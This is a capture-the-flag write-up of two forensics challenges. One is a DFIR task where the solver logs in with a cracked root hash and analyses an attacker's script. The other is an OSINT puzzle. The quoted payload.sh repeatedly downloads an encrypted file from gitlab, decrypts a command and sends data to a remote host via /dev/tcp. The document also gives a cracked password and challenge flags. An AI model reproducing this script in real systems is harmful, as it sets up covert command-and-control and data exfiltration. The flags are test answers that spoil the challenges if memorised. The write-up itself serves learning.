 # forensics

## DFIR

> Solved by : thewhiteh4t

* we get a `.ova` file for this one
* challenge states that activity was detected in / directory
* in / directory we can see a `.pot` file

![](https://i.imgur.com/HdIn51S.png)

* this file contains :

```
$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

* looks like shadow file format so i tried to login as `root` with `toor` as password and it works!
* in `/root` we can see some interesting dot files

![](https://i.imgur.com/wFSclR3.png)

* `payload.sh` pulls an encrypted csv file from gitlab and decrypts it

```
    #!/bin/bash
    W=$((15*60))
    K=120
    while true
    do
        echo "sleeping for $W seconds"
        sleep $W
        rm .encrypted_csv.data
        wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
        echo "downloaded file"
        F="./.encrypted_csv.data"
        hexdump -v -e '/1 "%u\n"' $F | while read B; do
            E=$((K^B))
            C=$(printf \\$(printf '%03o' $E))
            echo -n $C >> encrypted.csv
        done
        echo "decrypted newest command"
        S=$(cat encrypted.csv)
        rm encrypted.csv
        S="${S::-1}"
        D=,
        S=$S$D
        array=();
        while [[ $S ]]; do
            array+=( "${S%%"$D"*}" );
            S=${S#*"$D"};
        done;
        declare -a array
        M=${array[0]}
        I=${array[1]}
        P=${array[2]}
        M=${M##WPI}
        echo "routing message to $I:$P"
        echo "$M" > /dev/tcp/$I/$P
    done
```

* I modified the script to not remove the new file by commenting out line 19
* `encrypted.csv` holds our flag!

![](https://i.imgur.com/6KQGa3L.png)

----------

## Holmes:

> Solved by : Starry-Lord

* the challenge gives us the following string 

```
Z29vZCB0aG91Z2h0LCBidXQgbm8u
```

* it looks base64 , however  base64 decoder shows the following:

```
good thought, but no.
```

* using `Sherlock` OSINT tool we found this github repository :

```
https://github.com/Z29vZCB0aG91Z2h0LCBidXQgbm8u/flag/blob/main/README.md
```

```
WPI{sh3rlock_holmes_w0uld_be_pr0ud}
```